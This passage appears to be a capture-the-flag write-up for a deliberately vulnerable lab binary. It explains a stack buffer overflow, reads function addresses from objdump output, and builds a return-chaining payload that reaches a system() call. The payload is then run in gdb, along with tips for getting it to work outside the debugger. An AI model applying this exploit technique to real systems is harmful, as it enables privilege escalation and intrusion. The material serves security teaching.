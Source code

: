 To begin, notice that only `f()` is explicitly called in `main()`, and `buf[260]` is reserved. Recall the next 4 bytes after `buf` will be `$ebp` and the next 4 byte will be the return address, which we want to manipulate. And after the return address is popped from stack, the next 4 byte will be the new return address. So we can first try to chain up the return address to get us inside the `agonistic_heaven()`function. 
The technique is as introduced before. 
`user@host:/your-dir$ objdump -d durka`
``` 
08048590 <agonistic_heaven>:
 8048590:       55                      push   %ebp
 8048591:       89 e5                   mov    %esp,%ebp
 8048593:       e8 48 fe ff ff          call   80483e0 <geteuid@plt>
 8048598:       50                      push   %eax
 8048599:       50                      push   %eax
 804859a:       50                      push   %eax
...
080485b0 <flugeldufel>:
 80485b0:       55                      push   %ebp
 80485b1:       89 e5                   mov    %esp,%ebp
 80485b3:       68 50 86 04 08          push   $0x8048650
 80485b8:       e8 43 fe ff ff          call   8048400 <system@plt>
 80485bd:       6a 00                   push   $0x0
 80485bf:       e8 4c fe ff ff          call   8048410 <exit@plt>
 80485c4:       66 90                   xchg   %ax,%ax

```
Let's write down the several interesting addresses first.
`agonistic_heaven : 0x08048590 `
`flugeldufel      : 0x080485b0`
`call   8048400 <system@plt>: 0x80485b8`
 
You may wonder why we don't want to use the address of the system call `system@plt` itself. The reason is that `bash` will ignore any `null ` bytes as argument, so the `00` byte in address `0x08048400` will be ignored, and that is a real pain in the ass.
	 
So chain up the return addresses like this:
`$(python -c 'print "A"*264+"\x90\x85\x04\x08\xb8\x85\x04\x08"')`
And let's try run this input inside `gdb` and examine the stack at each function. 
Open up your `gdb` debugger with __durka__.
`user@host:/your-dir$ gdb durka`
Don't forget to clear out the `LINES` and `COLUMNS` environment variables, or otherwise your exploit may not work outside the `gdb`.
```
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) show env
```

Set up several break points so we can examine the stack.
``` gdb
 (gdb) b f
Breakpoint 1 at 0x8048570: file durka.c, line 11.
(gdb) b agonistic_heaven
Breakpoint 2 at 0x8048590: file durka.c, line 17.
(gdb) b flugeldufel
Breakpoint 3 at 0x80485b0: file durka.c, line 24.
```
run the program with the designed input:
``` gdb
run $(python -c 'print "A"*264+"\x90\x85\x04\x08\xb8\x85\x04\x08"')
Starting program: /c0re/durka $(python -c 'print "A"*264+"\x90\x85\x04\x08\xb8\x85\x04\x08"')
running as uid = 1030, euid = 1030

Breakpoint 1, f (s=0xffffdb5d 'A' <repeats 200 times>...) at durka.c:11
(gdb) cont
Continuing.
```